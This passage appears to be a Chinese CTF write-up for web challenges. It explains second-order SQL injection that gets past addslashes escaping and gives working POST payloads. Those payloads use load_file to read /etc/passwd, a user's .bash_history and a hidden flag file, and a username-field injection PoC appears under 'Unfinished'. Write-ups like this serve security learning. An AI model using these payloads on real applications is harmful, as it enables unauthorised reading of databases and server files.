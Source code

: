 利用addslashes进行转义，可以看到存在很明显sql二次注入


poc:
```
title=123&category=',content=(select group_concat(database())),/*&content=1
```

然后评论*/闭合即可

fuzz了半天，想到可以cat .bash_history....

用``load_file()``读文件 读``/etc/passwd``找用户

``select load_file('/home/www/.bash_history')``

可以看到
```
cd /tmp/ unzip html.zip rm -f html.zip cp -r html /var/www/ cd /var/www/html/ rm -f .DS_Store service apache2 start
```

然后读``/tmp/html/.DS_Store``呗

但是这里有个坑点是里面会有不可见字符。。

所以先用``hex``转下码

里面有``flag_8946e1ff1ee3e40f.php``,load一下拿到flag

```
title=123&category=',content=(select hex(load_file('/tmp/html/flag_8946e1ff1ee3e40f.php'))),/*&content=1
```

## Unfinished

用户名存在二次注入

Poc:
```
username=0'+(select hex(hex(database())))+'0
```

脚本